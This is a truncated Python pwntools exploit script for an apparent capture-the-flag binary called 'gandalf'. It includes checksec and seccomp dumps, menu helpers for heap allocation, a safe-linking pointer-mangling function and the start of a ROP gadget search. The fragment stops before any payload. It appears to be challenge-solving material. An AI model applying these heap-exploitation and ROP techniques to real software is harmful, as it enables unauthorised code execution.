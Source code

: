 ```python
# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ pwn checksec gandalf
#     Arch:     amd64-64-little
#     RELRO:    Full RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
#     RUNPATH:  b'.'

# └──╼ [★]$ sudo seccomp-tools dump ./gandalf
#  line  CODE  JT   JF      K
# =================================
#  0000: 0x20 0x00 0x00 0x00000004  A = arch
#  0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
#  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
#  0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
#  0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
#  0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
#  0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
#  0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
#  0008: 0x15 0x01 0x00 0x00000005  if (A == fstat) goto 0010
#  0009: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0011
#  0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
#  0011: 0x06 0x00 0x00 0x00000000  return KILL

SOME_GLOBAL = 0x0000108a 
def gen_rand():
    lib.srand(lib.time(None))

    iVar2 = lib.rand()
    iVar2 = SOME_GLOBAL + (SOME_GLOBAL ^ iVar2  % 0x2ad) * 7
    uVar1 = SOME_GLOBAL * 3;
    iVar3 = lib.rand()
    iVar2 = (uVar1 ^ iVar2 % 10000) + iVar3 % 100
    if (iVar2 < 0):
        iVar2 = -iVar2
    return iVar2 % 10000

def alloc(idx, size, data):
    io.sendlineafter(b'$', b'2')
    io.sendlineafter(b':', str(idx).encode())
    io.sendlineafter(b':', str(size).encode())
    io.sendafter(b'>>', data)

def free(idx):
    io.sendlineafter(b'$', b'3')
    io.sendlineafter(b':', str(idx).encode())

def show(idx):
    io.sendlineafter(b'$', b'1')
    io.sendlineafter(b':', str(idx).encode())

def mangle(heap_addr, val):
    return (heap_addr >> 12) ^ val

def exploit():
    global io
    io = initialize()
    rop = ROP(libc)

    POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
```
